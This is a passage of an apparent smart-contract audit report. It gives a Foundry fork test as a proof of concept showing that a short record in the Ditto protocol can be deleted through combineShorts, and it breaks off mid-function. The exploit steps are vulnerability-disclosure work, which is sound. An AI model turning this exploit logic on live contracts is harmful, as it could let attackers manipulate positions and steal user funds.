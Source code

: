 <br>

## PoC
Add the following code inside `test/fork/EndToEndFork.t.sol` and run it through `forge test --mt testFork_shortRecordCanBeDeletedViaCombineShorts -vv`. Remember to uncomment [L11](https://github.com/Cyfrin/2023-09-ditto/blob/main/test/fork/EndToEndFork.t.sol#L11) to enable logging:
```js
    /* solhint-disable no-console */
    function testFork_shortRecordCanBeDeletedViaCombineShorts() public {
        uint16 cusdInitialMargin = diamond.getAssetStruct(_cusd).initialMargin; // 200%

        // Workflow: Bridge - DepositEth
        // sender
        vm.startPrank(sender);
        assertEq(reth.balanceOf(_bridgeReth), 0);
        diamond.depositEth{value: 500 ether}(_bridgeReth);
        vm.stopPrank();
        // receiver
        vm.startPrank(receiver);
        assertEq(steth.balanceOf(_bridgeSteth), 0);
        diamond.depositEth{value: 500 ether}(_bridgeSteth);

        // Workflow: LimitShort
        MTypes.OrderHint[] memory orderHints = new MTypes.OrderHint[](1);
        currentPrice = diamond.getOraclePriceT(_cusd); // ~ 0.0005 ether
        diamond.createLimitShort(
            _cusd, currentPrice, 100_000 ether, orderHints, shortHints, cusdInitialMargin
        );
        vm.stopPrank();

        // Workflow: LimitBid
        // sender
        shortHints[0] = diamond.getShortIdAtOracle(_cusd);
        vm.prank(sender);
        diamond.createBid(
            _cusd, currentPrice, 100_000 ether, false, orderHints, shortHints
        );
        // @audit-info : short record with id: 2 would have been created here. Let's fetch it.
        STypes.ShortRecord memory receiverShort =
            diamond.getShortRecords(_cusd, receiver)[0];
        assertEq(receiverShort.ercDebt, 100_000 ether);
        assertSR(SR.FullyFilled, receiverShort.status);

        console.log(
            "total receiver collateral here",
            diamond.getShortRecords(_cusd, receiver)[0].collateral
        ); // ~150 ether

        vm.startPrank(receiver);
        // removing 50 ether as minimum collateral required to be maintained is 100 ether
        diamond.decreaseCollateral(_cusd, 2, 50 ether);

        console.log("=================== BEFORE combine ==========================");
        console.log(
            "receiver collateral", diamond.getShortRecords(_cusd, receiver)[0].collateral
        );
        console.log(
            "Number of short records", (diamond.getShortRecords(_cusd, receiver)).length
        );
        console.log("=========================================================");

        // @audit-info : let's combine(delete) the short
        uint8[] memory shortIds_to_combine = new uint8[](2);
```